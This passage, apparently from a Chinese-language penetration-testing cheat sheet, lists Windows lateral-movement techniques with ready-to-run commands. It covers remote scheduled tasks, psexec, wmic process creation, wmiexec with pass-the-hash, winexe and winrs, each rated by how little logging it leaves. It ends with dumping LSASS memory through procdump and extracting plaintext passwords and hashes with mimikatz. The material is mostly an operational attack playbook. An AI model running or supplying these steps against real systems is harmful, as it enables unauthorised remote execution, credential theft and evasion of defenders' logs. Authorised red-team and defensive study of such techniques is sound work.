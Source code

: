       C:\jboss-5.1.0.GA\bin\>schtasks /Query /TN mytask /s 172.17.1.1
      Folder: \
      TaskName                                 Next Run Time          Status         
      ======================================== ====================== ===============
      mytask                                   16-05-2018 07:50:00    Ready          
      
      C:\jboss-5.1.0.GA\bin\>schtasks /Run /TN mytask /s 172.17.1.1
      
      Folder: \
      TaskName                                 Next Run Time          Status         
      ======================================== ====================== ===============
      mytask                                   16-05-2018 07:52:00    Ready          
      
      C:\jboss-5.1.0.GA\bin\>schtasks /Delete /TN mytask /F /s 172.17.1.1
      SUCCESS: The scheduled task "mytask" was successfully deleted
      ```

  24. ##### psexec

      psexec 不推荐用,创建服务并删除,产生日志，需要开共享

      ```shell
      psexec -r sanr \\192.168.1.101 -u user -p pass cmd -r
      ```

  25. ##### wmi(135)

      wmi 如果防火墙开启无法连接，优点无日志，无落地(写入磁盘)，以下命令无回显，写入txt，type查看.

      ```shell
      wmic /node:192.168.1.101 /user:admin /password:@!123QWW
      process call create "cmd.exe /c whoami"
      ```

      

  26. ##### wmiexec

      cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1 username password 如果没明文密码，pth后利用。

      [详细介绍]http://www.91ri.org/12908.html

  27. ##### winexe

      winexe可以从Linux上远程执行windows命令（SMB），kali自带

      ```
      ./winexe --system -U 'Administrator%123123' //192.168.1.101 'cmd.exe /c whoami'
      ```

  28. ##### PsRemoting

      2012 r2起,默认端口5985,系统自带远程管理winrs winrs -r:192.168.1.101 -u:administrator -p:pwd ipconfig 

  29. ##### mimikatz + procdump 获得内存 hash

      如果服务器是64位，要把Mimikatz进程迁移到一个64位的程序进程中，才能查看64位系统密码明文。32位任意

      运行`procdump.exe -accepteula -ma lsass.exe lsass.dmp`(管理权限)后lsass.dmp放到mimikatz.exe同目录，运行以下命令 `mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"`
